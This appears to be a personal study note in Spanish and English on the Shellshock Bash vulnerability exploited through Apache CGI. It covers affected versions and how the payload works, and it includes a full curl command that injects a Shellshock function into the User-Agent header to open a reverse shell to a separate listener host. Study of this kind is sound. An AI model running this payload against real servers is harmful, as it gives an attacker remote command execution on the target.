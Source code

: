 - todas las versiones de Bash anteriores a la 4.3 (bash --version)
- explotable nivel local y en remoto
- permite RCE, por lo que afecta a la confidencialidad, la integridad y a la disponibilidad- basado en explotar las variables de entorno [[Los sistemas operativos basados Linux#Variables]]
- ![[Pasted image 20231230121345.png]]
### Apache CLI, aprovechar esta vulnerabilidad en remoto![[Pasted image 20231230123305.png]]

### Breakdown of Shellshock for CGIReference:
https://www.sevenlayers.com/index.php/125-exploiting-shellshock```bash**curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.90.35/9999 0>&1' http://192.168.90.59/cgi-bin/test.sh**```
- in general we are curling the cgi-bin/test.sh of our vulnerable Apache Server using CGI
### Header payload 
- in this case we use the Header field of User-Agent, which ist then stored in a global variable from the CGI(Common Gateaway interface) 
- if the CGI is now referencing the User-Agent again, our defined function is called
### Function set-up
- first we use a nop-function () {:;}, just to make sure that bash can execute the function successfully and then we add our commands to execute